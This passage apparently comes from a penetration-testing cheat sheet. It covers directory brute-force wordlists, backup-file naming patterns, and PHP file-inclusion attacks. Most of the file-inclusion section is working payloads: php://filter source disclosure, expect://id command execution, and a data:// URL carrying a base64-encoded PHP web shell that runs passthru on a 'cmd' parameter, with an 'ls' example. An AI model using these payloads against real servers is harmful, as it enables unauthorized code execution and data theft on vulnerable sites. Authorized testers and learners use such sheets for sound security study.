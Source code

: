 ```
Run once to get lines to hide, adjust hl

Dictionaries :
   - /usr/share/wordlists/dirb/common.txt
   - /usr/share/wordlists/dirb/big.txt
   - /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

#### File backups

Once you have found all the files, look for backups of all the executable files ("_.php_", "_.aspx_"...). Common variations for naming a backup are

```
file.ext~, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old
```

### Local File Inclusion / Remote File Inclusion - LFI / RFI

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
```

#### Wrappers

##### Wrapper php://filter

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=
```

##### Wrapper expect://

```
http://example.com/index.php?page=expect://id
```

##### Wrapper data://

```
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with
	- exec
	- shell_exec
	- system
	- passthru
	- popen

# Exemple
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls
```